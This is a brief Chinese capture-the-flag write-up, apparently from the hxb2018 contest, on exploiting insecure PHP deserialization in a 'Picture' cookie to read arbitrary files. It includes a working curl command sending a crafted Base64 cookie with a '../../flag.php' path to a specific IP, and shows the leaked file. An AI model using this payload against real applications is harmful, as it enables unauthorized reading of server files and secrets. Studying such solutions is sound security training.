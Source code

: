 1. 访问 Picture 路由发现 Cookie 中有 Picture 字段，为 Base64 编码
2. 解码得到反序列化的数据，猜测存在反序列化漏洞，并且序列化的内容中有文件名，该文件会被读取出来编码为 Base64 展示在 HTML 中
3. 通过目录扫描得到存在 flag.php
4. 通过反序列化进行任意文件读取得到 flag.php 的内容

```
curl 'http://39.108.167.229/index.php/picture' -H 'Cookie: Picture=YToxOntpOjA7czoxNDoiLi4vLi4vZmxhZy5waHAiO30=; PHPSESSID=h002spfr0jl8d42a7rep0osmhb;' -vv
<?php $flag = "hxb2018{87f23af96f20d8cb284c578b4c08ad03}"; echo "flag{This_flag_iS_A_F4ke_flag}";
```
